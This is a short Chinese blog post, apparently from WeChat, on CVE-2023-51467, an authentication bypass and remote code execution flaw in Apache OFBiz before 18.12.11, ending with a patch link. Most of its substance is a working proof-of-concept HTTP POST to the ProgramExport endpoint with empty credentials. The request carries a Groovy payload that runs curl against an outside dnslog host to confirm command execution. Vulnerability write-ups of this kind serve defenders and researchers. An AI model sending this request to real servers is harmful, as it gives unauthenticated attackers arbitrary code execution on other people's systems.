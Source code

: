 #  CVE-2023-51467RCE漏洞(附EXP)   
 渗透Xiao白帽   2023-12-30 13:47  
  
网安引领时代，弥天点亮未来     
  
  
  
  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
**0x00写在前面**  
  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Apache OFBiz是美国阿帕奇（Apache）基金会的一套企业资源计划（ERP）系统。该系统提供了一整套基于Java的Web应用程序组件和工具。Apache OFBiz 18.12.11之前版本存在代码问题漏洞，该漏洞源于允许攻击者绕过身份验证来实现服务器端请求伪造。0x02影响版本Apache Ofbiz <18.12.110x03漏洞复现1.访问漏洞环境2.对漏洞进行复现 POC （POST）‍漏洞复现POST /webtools/control/ProgramExport?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1Host: 127.0.0.1Content-Length: 190Content-Type: application/x-www-form-urlencodedUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36groovyProgram=import+groovy.lang.GroovyShell%0D%0A%0D%0AGroovyShell+shell+%3D+new+GroovyShell%28%29%3B%0D%0Ashell.evaluate%28%27%22curl%2008hw60.dnslog.cn%22.execute%28%29%27%29测试dnslog（漏洞存在）3.xpoc工具测试（漏洞存在）0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://lists.apache.org/thread/9tmf9qyyhgh6m052rhz7lg9vxn390bdvhttps://mp.weixin.qq.com/s/A0pwnvbJ44mlm3E1JoFVBA  
